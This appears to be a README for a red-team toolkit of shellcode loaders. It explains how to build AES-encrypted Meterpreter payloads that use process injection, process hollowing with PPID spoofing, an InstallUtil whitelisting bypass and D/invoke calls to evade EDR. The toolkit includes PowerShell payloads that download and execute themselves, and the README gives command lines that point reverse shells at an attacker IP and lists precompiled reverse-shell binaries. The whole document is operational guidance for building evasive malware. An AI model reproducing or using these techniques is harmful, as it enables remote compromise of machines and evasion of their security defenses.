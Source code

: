 # Loaders - Shellcode

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `D_invoke/` | EXE | C# project that produces [D/invoke](https://github.com/TheWover/DInvoke) payloads |
| `clinject/` | EXE | C# project that has been modified to accept command line args for an **injected** reverse shell process |
| `clhollow/` | EXE | C# project that has been modified to accept command line args for an **hollowed** reverse shell process |
| `powershell/Powerinject.py` | PS | Python3 script to generate .PS1 payloads that perform process injection. |
| `powershell/Powerhollow.py` | PS | Python3 script to generate .PS1 payloads that perform process hollowing with PPID spoofing |
| `formatters/port_ipeggs.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Powerinject` & `Powerhollow` |
| `formatters/bin_to_vbappArray.py` | TXT | Python3 script to format raw `.bin` shellcode files into proper format for use in VBA Macros |
| `bins/x64_met_staged_reversetcp_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversetcp_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer) |
| `bins/x64_met_staged_reversehttps_inject.exe` | N/A | Command line args: IP PORT PROCESS_TO_INJECT(explorer) |
| `bins/x64_met_staged_reversehttps_hollow.exe` | N/A | Command line args: IP PORT PROCESS_TO_HOLLOW(c:\\windows\\system32\\svchost.exe) PPID_SPOOF(explorer)  |
| `formatters/formatshellcode.py` | TXT | Python3 script to format C# shellcode output by msfvenom into proper format for use with `Builder.exe` |

## [clinject](./clinject/Program.cs) and [clhollow](./clhollow/Program.cs)

These are C# projects that have been modified in order to accept command line `Lhost`, `Lport`, and processes for targeting.  This allows a user to drop the payload on whatever target machine without worry of needing to re-roll shellcode if the attackers IP changes, or the payload needs to be pointed at a different machine in order to hit a tunnel and egress the network.

This was accomplished by using Msfvenom to create shellcode and then locating the IP and port that was specified in the msfvenom command within the output shellcode.  These bytes were replaced with unique identifier strings.  This process was accomplished with the [Port_ipeggs.py](./formatters/portip_eggs.py) script, which finds the hex bytes for the specified IP/PORT combo in a `msfvenom -f csharp` output file and replaces them with `0x11,0x11,0x11,0x11` and `0x22,0x22` respectively.  

This shellcode was then AES encrypted and placed in the C# project.  On run time, the shellcode is decrypted and then the IP and port given by the attacker is converted to hex and placed in the proper location wthin the decyrpted shellcode as marked by the unique identifer strings.

> TODO: Original author notes that `port_ipeggs.py` "Does not work with all payloads. Confirmed works with reverse_tcp, confirmed DOES NOT work with HTTPS". This could be why the HTTPs payloads in `/bins/` don't work. FIX.

### clinject Usage
C# project source code for (IP + port + process) cli passed process injection payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clinject.exe 192.168.1.198 443 explorer
```

### clhollow Usage

C# project source code for (IP + port + process + parent-process) cli passed process hollowing payload. Use `multi/handler` with `windows/x64/meterpreter/reverse_tcp`
```cmd
clhollow.exe 192.168.1.198 443 c:\\windows\\system32\\svchost.exe explorer 
```

## [powerhollow.py](./powershell/powerhollow.py) and [powerinject.py](./powershell/powerinject.py)

These python scripts call `msfvenom` to generate shellcode, AES encrypt it, and then embed it within hardcoded powershell code in order to dynamically produce *.PS1* payloads according to user supplied options.  These *.PS1* payloads are modeled after the OSEP *.PS1* that utilizes dynamic lookup rather than `add-type` in order to prevent writing to disk when calling `csc`.  

`Powerinject.py` payloads succeed here; however I was unable to find a way to define the structs necessary for doing PPID spoofing with Process hollowing, so **add-type IS called in the `Powerhollow.py`** *.PS1* payloads, however this is only done for the necessesary structs and the `createproces()` Win32API. All other required API's are resolved dynamically.

In addition, `powerinject.py` payloads now detect if they are being run in a 32-bit PS context, and auto download-and-execute themselves in a 64-bit process. This is useful if your stager is ran from a 32-bit process (Word Macros), resulting in a 32-bit PS process. You can also use the `-D` argument to have the payload output useful debugging statements and help you determine where in the process of setting up the reverse shell it is failing.

Run the appropriate python script for the kind of payload you want to use and then place the produced files in your webserver directory and use the supplied PS one liner in order to call them. If you see in the debug output that its failing to open a process, try a couple times more. Sometimes there just isn't a suitable process to inject into but after a couple tries it finds one.

## [D_invoke](./D_invoke/Builder/Program.cs)

C# project that produces D/invoke payloads (basic, injector, hollower + ppid spoof) in exe, dll, or service exe format.  Use pre-built builder.exe in the D_Invoke directory.

This is a package built using TheWover's project and research as the foundation (https://github.com/TheWover/DInvoke, https://thewover.github.io/Dynamic-Invoke/).

The inspiration for this project was to simplify the process of generating compiled C# payloads.  By using this project, a user never need open visual studio when creating payloads.

### General Usage Steps

1. Generate shellcode
    - This was built with msfvenom shellcode in c# as the primary input, however it was retooled to take .bin files during some testing with CobaltStrike
    - i.e. it takes C# & binary input
2. Format the shellcode for use with `Builder.exe` using the [formatshellcode.py](./formatters/formatshellcode.py) script (for msfvenom shellcode)
3. Transfer formatted shellcode to your Windows dev machine
4. Run builder.exe with the proper switches
5. Voila. You have your AES encryped shellcode D/invoke payload in whatever format and technique you want!

### Details 

The foundation of this package is `Builder.exe`.  This application allows the user to specify several options to include:

1. Format of payload (`/F:`)
    - EXE, DLL, OR Service EXE
2. Technique (`/T:`)
    - Local injection
    - Remote injection
    - Process hollowing with PPID spoofing
3. Shellcode file (`/S:`)
    - File containing parsed shellcode
4. Process name (`/P:`)
    - Process to corrupt for injection
        - Must be pretty name, e.g. `explorer`
    - Process to spawn for hollowing
        - Must be absolute path, e.g. `c:\\windows\\system32\\svchost.exe` (escape backslashes)
5. Parent Process (`/X:`)
    - Process for PPID spoofing with process hollowing technique
        - Must be pretty name, e.g. `explorer`
6. Architecture (`/A:`)
    - x86 OR x64

After the user specifies all the above options, a "`template.cs`" file within the selected format project (exe, dll, service) will be edited and the payload pieced together.  `Builder.exe` has hardcoded within it the necessary code for the various options (d/invoke statements for hollowing w/ ppid spoofing for example) that will be placed into the template file in the proper manner in the given format (exe, dll, service exe).

Builder will AES-256 encrypt the shellcode (*generating a new key and IV each time it is run*) and embed the encrypted shellcode within the template file. Once the template file is complete, it will be saved over `program.cs` in the respective format project.  MSBuild will then be called on the updated `program.cs` file in order to create the final payload in exe, dll, or service exe format.

### Limitations

The produced payloads use D/invoke statements for most, *but not all* of the API calls. Certain simple ones (As well as certain complex ones in the process hollowing payload) still use `p/invoke`. An `Installutil` bypass is baked into each *.exe* payload for use in case application whitelisting is in place.

Additionally, direct *syscalls* have not been implemented in this project. It is maybe a direction for further work. However given that certain EDR's don't even hook userland syscalls anymore, I haven't done this yet as I need to do more research on the correct direction to go in the future. 

Note that this tool was developed for personal use, not production.  As such there are some shortcomings in that there are hardcoded paths where `Builder.exe` expects to find things:
1. `Builder.exe` should only be run from within the d/invoke folder
    - i.e. `builder.exe` should be in the same folder as the dll, exe, and service folders as it is on the hosted repo
2. Additionally, MSBuild is hardcoded for VS2019
    - If you are utilizing a different version, you will need to edit the source code of `Builder.exe` and update it with the path to MSBuild within your version.

## `/bins/`

This directory just holds precompiled binaries created with the `clhollow` and `clinject` projects using `windows/x64/meterpreter/reverse_https` and `windows/x64/meterpreter/reverse_tcp` payloads.
